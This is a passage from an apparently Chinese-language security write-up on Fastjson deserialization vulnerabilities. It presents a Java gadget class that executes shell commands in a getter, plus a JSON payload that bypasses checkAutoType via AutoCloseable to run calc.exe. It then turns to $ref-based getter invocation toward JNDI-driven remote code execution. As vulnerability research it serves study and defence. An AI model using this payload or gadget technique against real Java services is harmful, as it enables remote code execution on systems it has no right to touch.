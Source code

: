 ```
}

class EvalReadable implements Readable {
    private String cmd;

    public String getCmd() {
        System.out.println("EvalReadable getCmd() "+cmd);
        try {
            Runtime.getRuntime().exec(new String[]{"cmd", "/c", cmd});
        } catch (IOException e) {
            e.printStackTrace();
        }

        return cmd;
    }

    public void setCmd(String cmd) {
        this.cmd = cmd;
    }

    @Override
    public int read(CharBuffer cb) throws IOException {
        return 0;
    }
}


```

攻击载荷：

```
package org.heptagram.fastjson;

import com.alibaba.fastjson.JSONObject;

public class ExecReadableMain {
    public static void main(String[] args) {
        String payload ="{\n" +
                "  \"@type\":\"java.lang.AutoCloseable\",\n" +
                "  \"@type\": \"org.heptagram.fastjson.ExecReadable\",\n" +
                "  \"eval\":{\"@type\":\"org.heptagram.fastjson.EvalReadable\",\"cmd\":\"calc.exe\"}\n" +
                "}";
        JSONObject.parseObject(payload);
    }
}


```

执行结果：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422113250-6a4d7e82-a31b-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210422113250-6a4d7e82-a31b-1.jpg)  
$ref 拓展使用  
在 checkAutoType 检查分析部分我们说道找寻合适的 JNDI 较为困难，其原因是大多数 JNDI 的 gadget 都继承自 DataSource 和 RowSet，所以反序列化的类过不了 checkAutoType 的检查，那么 JNDI 注入真的就无法使用了吗？浅蓝师傅和 threedr3am 师傅给出了关于通过 $ref 引用功能来触发 getter 的方法，理论上我们可以通过这种方式实现 RCE，而且还能够在不开启 AutoType 的情况下，任意调用大部分当前反序列化对象的 getter 方法，如果存在危险的 method 则可以进行攻击，下面我们分别来看一下具体的方法：  
浅蓝师傅给出的示例 (原来的基础上稍有变形)：
